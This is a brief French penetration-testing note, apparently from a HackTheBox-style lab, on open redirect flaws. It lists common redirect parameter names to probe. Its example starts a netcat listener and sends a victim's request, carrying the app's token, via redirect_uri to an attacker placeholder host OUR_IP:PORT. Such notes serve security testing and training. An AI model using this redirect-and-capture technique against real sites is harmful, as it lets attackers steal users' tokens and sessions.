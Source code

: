 
Permet de rediriger la victime vers un autre site grâce à une fonction de redirection.

Tester les paramètres suivants :

- ?url=
- ?link=
- ?redirect=
- ?redirecturl=
- ?redirect_uri=
- ?return=
- ?return_to=
- ?returnurl=
- ?go=
- ?goto=
- ?exit=
- ?exitpage=
- ?fromurl=
- ?fromuri=
- ?redirect_to=
- ?next=
- ?newurl=
- ?redir=

Exemple pour le site `http://oredirect.htb.net/`  : 

Lancer listener

```bash
nc -lvnp 1337
```

Requête sur URL vulnérable:

`http://oredirect.htb.net/?redirect_uri=http://OUR_IP:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

